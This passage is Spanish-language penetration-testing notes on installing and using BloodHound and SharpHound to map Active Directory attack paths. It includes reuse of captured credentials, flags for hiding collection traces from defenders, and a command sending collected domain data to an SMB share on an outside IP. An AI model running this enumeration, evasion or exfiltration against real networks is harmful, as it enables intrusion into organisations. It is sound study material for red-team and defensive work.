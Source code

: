 # Info

Bloodhound es una herramienta capaz de enumerar entornos de AD y Azure que, por medio de una interfaz, presenta los resultados de manera gráfica.

Utiliza una DB NoSQL para guardar los resultados y los presenta con un Graph data model

BloodHound muestra la información mediante **nodes** y **edges**. Los nodos son las OU, los edges son las relaciones que tiene una OU con otra.

# Instalación

Se requiere:

- Java 
- Neo4j

1) Agregamos el repo de java al source list

        echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list

2) Descargamos la key para el repo de neo4J

        wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -

3) agregamos el repo al sourcelist

        echo 'deb https://debian.neo4j.com stable 4.4' | sudo tee -a /etc/apt/sources.list.d/neo4j.list

4) Instalamos los paquetes requeridos

        sudo apt-get install apt-transport-https

5) instalamos neo4j

        sudo apt install neo4j

6) descargamos la última versión de bloodhound

        https://github.com/BloodHoundAD/BloodHound/releases
7) Descomprimimos fichero

        unzip BloodHound-linux-x64.zip && cd BloodHound-linux-x64/

8) lo corremos

        ./BloodHound --no-sandbox

# Uso

Iniciamos el neo4j con:

        sudo systemctl start neo4j

## COnfiguración del primer uso

Una vez iniciado el proceso, vamos al servicio iniciado en el localhost e iniciamos sesión con el user y pass neo4j

        http://localhost:7474/

Reestablecemos la contraseña.

## Recolección de información

Para recolectar información en los entornos de windows usamos SharpHound.

##### Modos de recolección:

| Metodo | desc |
|---|---|
|All | Busca todo lo que esté dentro del dominio menos los GPOLocalGroup |
|DCOnly | Colecta data solamente del DC sin preguntar al resto de los dispositivos domain-joined. Va a traer: Users, computadoras, security groups memberships, domain trusts, privilegios abusables dentro de los objetos. Entre otras cosas |
|Computer Only | Va a colectar información solamente de los equipos domain-joined |

        .\SharpHound.exe -c <metodo>


### Impersonación con SharpHound

Si conseguimos credenciales de otro usuario, podemos utilizarlo mediante las flags --ldapusername --ldappassword 

### Atacar un dominio en específico

SharpHound utiliza el dominio en el que nos encontramos por defecto, pero de haber multiples dominios en el Forest podríamos hacerlo indicando la flag -d y el dominio

        .\SharpHound.exe -c All -d <dominio>

### Entornos monitorizados

En un escenario donde el entorno se encuentra monitorizado, deberíamos realizar dos recolecciones con SHarpHound.

Primero realizamos una de tipo DCOnly, luego analizamos los resultados buscando computadoras que sean interesantes, creamos una lista de las mismas y luego corremos una computerOnly agregando la flag --computerfile y el file creado de las computadoras

        .\SharpHound.exe -c ComputerOnly --computerfile <file>

Se sabe que SharpHound, por defecto, genera distintos .json, que luego guarda en un zip. También genera un archivo con un nombre aleatorio y un .bin que corresponde a la caché de las consultas que realizas. Los equipos de defensa podrían utilizar estos patrones para detectar a Bloodhound. Una forma de intentar ocultar estos rastros es combinando algunas de estas opciones:

| Flag | Desc |
|---|---|
|--memcache | mantiene la caché en moria y no escribe en disco |
|--randomfilenames | Genera nombres de archivos aleatorios incluido el zip (modifica también la extención)|
|--outputprefix | Pone un prefijo a los archivos generados |
|--outputdirectory | señala el directorio en el que se guardarán los archivos |
|--zipfilename | nombra al zip final |
|--zippassword | da una contraseña al password |

Podríamos entonces levantar un smb y enviar el resultado de bloodhound al mismo

        SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword <pass> --outputprefix <pref> --randomfilenames

**<u>Atención:</u> **

Si el archivo que guardamos tiene password vamos a tener que descomprimirlo y luego enviar los archivos resultantes a bloodhound. Si no tiene password, indiferentemente de la extención del mismo, podemos sumarlo a bloodhound.

### Searchbar

La searchbar de Bloodhound nos permite traer información de las OU dentro del Domain.

Podemos también utilizar la funcionalidad de PathFinding (el primer boton del lado derecho de la search bar) para buscar paths de ataque entre dos nodos y utilizar la opción de filtros (el último boton) para indicar qué acciones no debe contemplar.


### El gráfico

Una vez cargada la información recogida, bloodhound nos presentará el gráfico.

En el mismo se mostrarán los nodos y edges

Si hacemos click en un nodo se nos desplegará la **info tab** debajo de la searchtab, si hacemos click derecho sobre el mismo tendremos una serie de opciones:

|Opción | Desc |
|----|-----|
|Set as Starting Node | Setea el nodo como el starting point del pathfinding |
|Set as Ending Node | Setea el nodo como el target en el pathfinding |
|Shortest paths to here | Va a buscar todos los caminos fáciles desde los distintos nodos hasta el nodo seleccionado (esto tarda mucho tiempo) |
| Shortest Paths to here from owned | Busca los vectores de ataque desde los nodos que tenemos como owned hasta el nodo seleccionado |
| Edit Node | Permite modificar las propiedades del nodo|
|Mark group as owned | Cambia el estado del nodo en la base de datos como owned, permitiendo nuevos shortpaths |
| Mark/Unmark Group as High Value | Marca o desmarca un nodo como de gran valor. Podemos aprivechar esto para buscar vectores de ataque usando la query "shortest paths to high-value assets" |
|Delete node | elimina un nodo de la base de datos |


Lo mismo pasa con los Edges, si hacemos click derecho sobre los mismos tendremos dos opciones:

- Help - Abrirá un popup con tres opciones:
+ Info
+ Abuse info

